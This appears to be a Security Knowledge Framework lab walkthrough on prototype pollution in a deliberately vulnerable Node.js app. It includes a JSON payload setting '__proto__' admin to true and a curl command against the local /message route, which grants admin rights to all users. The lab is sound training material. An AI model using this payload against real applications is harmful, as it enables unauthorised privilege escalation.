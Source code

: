 # KBID 147 - Parameter binding

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

JavaScript is prototype-based: when new objects are created, they carry over the properties and methods of the prototype “object”, which contains basic functionalities such as toString, constructor and hasOwnProperty.

Object-based inheritance gives JavaScript the flexibility and efficiency that web programmers have come to love – but it also makes it vulnerable to tampering.

Malicious actors can make application-wide changes to all objects by modifying object, hence the name prototype pollution.

Interestingly, attackers don’t even need to directly modify object – they can access it through the ‘**proto**’ property of any JavaScript object. And once you make a change to object, it applies to all JavaScript objects in a running application, including those created after tampering.

Let's open the application, we have a login screen:

PRINTSCREEN PLACEHOLDER

Loggin in with user/user.

PRINTSCREEN PLACEHOLDER

We see this user has no Admin privileges, also we have a feature to send a message to an admin. Let's use this and check the request

PRINTSCREEN PLACEHOLDER

Post request with email and username as expected.
We also noticed in the homepage a functionality to create a new user.

PRINTSCREEN PLACEHOLDER

Login with the newly created user.

PRINTSCREEN PLACEHOLDER

## Exploitation

Let's try our prototype pollution payload in the /message route.

```json
{
  "__proto__": { "admin": true },
  "email": "evil@proto.pollution",
  "msg": "You have been hacked!"
}
```

To make it easier let's put this payload in a file called evil.json.
Now lets use to curl to request the application with evil.json

```text
curl -H "content-type: application/json" -d@evil.json http://localhost:5000/message
```

PRINTSCREEN PLACEHOLDER

We get a response back from the server. Let's refresh the page to see if it worked.

PRINTSCREEN PLACEHOLDER

Success! We now have a user with admin privileges!

If we create another user we see the new user will also have admin set to True.

PRINTSCREEN PLACEHOLDER

PRINTSCREEN PLACEHOLDER

## Additional sources

https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications
